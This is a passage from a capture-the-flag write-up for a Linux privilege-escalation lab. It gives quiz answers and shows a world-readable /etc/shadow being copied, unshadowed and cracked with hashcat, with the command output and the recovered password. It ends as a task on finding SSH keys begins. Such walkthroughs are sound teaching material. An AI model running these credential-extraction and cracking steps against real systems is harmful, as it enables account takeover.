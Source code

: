 Answer : smss.exe

### Who was TCM trying to log in as?

Answer : root

### Naughty naughty.  What was the password discovered?

Answer : password123

## TASK 6 : Privilege Escalation - Weak File Permissions
### What were the file permissions on the /etc/shadow file? 

```console
TCM@debian:~$ ls -la /etc/shadow
-rw-rw-r-- 1 root shadow 809 Jun 17  2020 /etc/shadow
```
{: .nolineno }

The file is readable by our user so we can extract the /Etc/passwd and /etc/shadow to our Kali machine to unshadow these and cracking  the hash :

```console
unshadow passwd.txt shadow.txt > unshadowed.txt
```
{: .nolineno }

The the result of hashcat :

```console
root@ip-10-10-9-130:~/Desktop# hashcat -m 1800 unshadowed.txt rockyou.txt -O
[...]
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 5 secs

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => b
[...]
```
{: .nolineno }

Answer : -rw-rw-r--

## TASK 7 : Privilege Escalation - SSH Keys
### What's the full file path of the sensitive file you discovered? 
Searching for SSH keys on the system :
